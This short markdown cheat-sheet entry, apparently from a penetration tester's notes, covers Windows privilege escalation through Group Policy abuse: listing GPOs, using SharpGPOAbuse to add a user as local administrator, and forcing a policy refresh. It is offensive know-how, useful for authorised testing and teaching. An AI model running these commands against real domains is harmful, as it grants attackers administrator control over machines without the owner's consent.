 ```yaml
---
title: "GPOs"
date: 2024-8-3
tags: ["GPOs", "Windows", "privesc", "Group Policy Objects"]
---
```


### Abuse #1: Add local admin

#### 1. List GPOs Name

```console
Get-GPO -All | Select-Object DisplayName
```

#### 2. Add localAdmin

```console
.\SharpGPOAbuse.exe --AddLocalADmin --UserAccount <USER> --GPOName <GPO_NAME>
```

#### 3. Force reload

```console
gpupdate /force
```

<small>*Ref: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)*</small>

